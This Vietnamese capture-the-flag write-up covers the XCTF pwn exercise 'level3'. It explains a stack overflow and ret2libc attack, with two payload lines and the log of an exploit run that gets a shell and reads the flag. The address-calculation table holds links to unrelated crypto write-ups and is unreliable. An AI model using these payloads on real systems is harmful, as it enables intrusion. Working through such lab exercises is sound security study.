 # XCTF - PWN Exercise - level3

```c
#include<stdio.h>

ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/5_level3 λ checksec level3   
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/5_level3/level3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Chương trình rất đơn giản, biến `buf` có 136 kí tự nhưng hàm `read` cho phép đọc 256 kí tự input và chương trình cũng không có flag secure `Canary` => có thể stack buffer overflow để lấy shell tương tác trên server. Chúng ta sẽ dùng phương pháp `ret2libc` vì không có functions nào của chương trình cho phép có shell hay là đọc flag trên server.

Những bài sử dụng kỹ thuật `ret2libc` thường sẽ leak địa chỉ của libc bằng hàm `write` hoặc hàm `puts` rồi sau đó tính toán `offset` và địa chỉ của các hàm liên quan đến lấy shell tương tác như: `địa chỉ cơ sở của libc`, `system`, chuỗi `"/bin/sh"`,... do địa chỉ tương đối giữa các hàm trong libc là cố định (khoảng cách giữa các hàm).

Để lấy địa chỉ của hàm hệ thống của bài này, ta có thể sử dụng hàm `write()` để thực hiện tính toán offset. 

   1. Đầu tiên sử dụng hàm write() để tính địa chỉ thực của hàm `write()` được chương trình lưu trong `GOT`. 
   
   2. Sử dụng khoảng cách tương đối giữa các để tính địa chỉ thực của `system` và `"/bin/sh"`.

=> Đối với cuộc tấn công đầu tiên, chúng ta sử dụng tràn ngăn xếp để làm rò rỉ địa chỉ thực của hàm write() trong bảng GOT, sau đó trừ đi phần bù trong libc để lấy địa chỉ cơ sở của libc. 
=> Cuộc tấn công thứ hai sẽ quay lại functions `main`, vượt qua tràn ngăn xếp một lần nữa và sử dụng chức năng `system` tính toán được để `get shell` :p.

Trong trường hợp này, trọng tải được sử dụng lần đầu tiên bao gồm:

```
payload1 = 'A' * 0x88 + p32 (0xdeadbeef) + p32 (write_plt) + p32 (main_addr) + p32 (1) + p32 (write_got) + p32 (0xdeadbeef)
```

Sử dụng cuộc tấn công đầu tiên, bạn có thể lấy được cơ sở của địa chỉ libc. Sau đó, thực hiện cuộc tấn công thứ hai. Trọng tải được sử dụng bao gồm:

```
payload2 = 'A' * 0x88 + p32 (0xdeadbeef) + p32 (sys_addr) + p32 (0xdeadbeef) + p32 (bin_sh_addr)
```

Việc tính toán một số địa chỉ liên quan qua địa chỉ của hàm `write` leak được. Địa chỉ được tính như sau:

|   Địa chỉ các hàm   |  Mảng  | Writeup                                                       |
|   :-------------:   | :----: | :-----------------------------------------------------------: |
|      libc_addr      | Crypto | [link](./Crypto/Crafted%20Cipher/write-up-crafted-cipher.txt) |
|     system_addr     | Crypto | [link](./Crypto/Mmatrix/README.md)                            |
|     bin_sh_addr     | Crypto | [link](./Crypto/b64%20thac%20tku%20zi)                        |

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/5_level3 λ python2 exploit.py
[+] Opening connection to 111.200.241.244 on port 51341: Done
('Write_got address is', '0xf76e13c0')
('libc address is', '0xf760d000')
('system address is', '0xf7647940')
('/bin/sh address is', '0xf776602b')
[*] Switching to interactive mode
Input:
$ ls
bin
dev
flag
level3
lib
lib32
lib64
$ cat flag
cyberpeace{30760e28dd5d22b93e22a2d89a7113b9}
$  
```
